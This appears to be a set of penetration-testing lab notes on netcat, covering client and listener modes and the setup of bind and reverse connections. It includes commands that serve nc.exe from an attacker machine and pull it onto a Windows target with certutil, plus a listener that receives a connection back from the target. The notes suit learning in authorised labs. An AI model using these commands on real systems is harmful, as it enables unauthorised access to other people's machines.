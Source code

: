 ## Bind & Reverse [Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells)

### [Netcat](../penetration-testing-prerequisites/web-applications.md#netcat)

**`nc`** - a network utility used for a variety of tasks associated with TCP/UDP.

- **Client mode** - used for connection to any TCP/UDP port or to a listener
- **Server Mode** - used as a listener for connection from clients on a specific port

Functionalities:

- open TCP connections, listen on TCP or UDP ports
- Banner grabbing, Port scanning, Files transferring
- Bind/Reverse shells
- 📌 [Hacking with Netcat](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/)

```bash
# Debian based distro - install
sudo apt update && sudo apt install -y netcat
```

> 🔬 Some HFS Lab commands

```bash
nc <TARGET_IP> <TARGET_PORT>
nc -nv 10.2.23.227 80
# -n = no DNS resolution
# -v = verbose

nc -nvu 10.2.23.227 445
# -u = UDP port
```

Setup a listener:

- Transfer `nc.exe` to the windows target

```bash
# Attacker machine
ip -br -c a
	10.10.24.4/24
cd /usr/share/windows-binaries/
python -m SimpleHTTPServer 80


# Target machine
cd Desktop
certutil -urlcache -f http://10.10.24.4/nc.exe nc.exe
```

- Setup a listener on the attacker machine

```bash
# Attacker machine
nc -nvlp 1234
nc -nvlup 1234 # listen on a UDP port


# Target machine
nc.exe -nv 10.10.24.4 1234
nc.exe -nvu 10.10.24.4 1234

# A connection is received on the Attacker machine
```
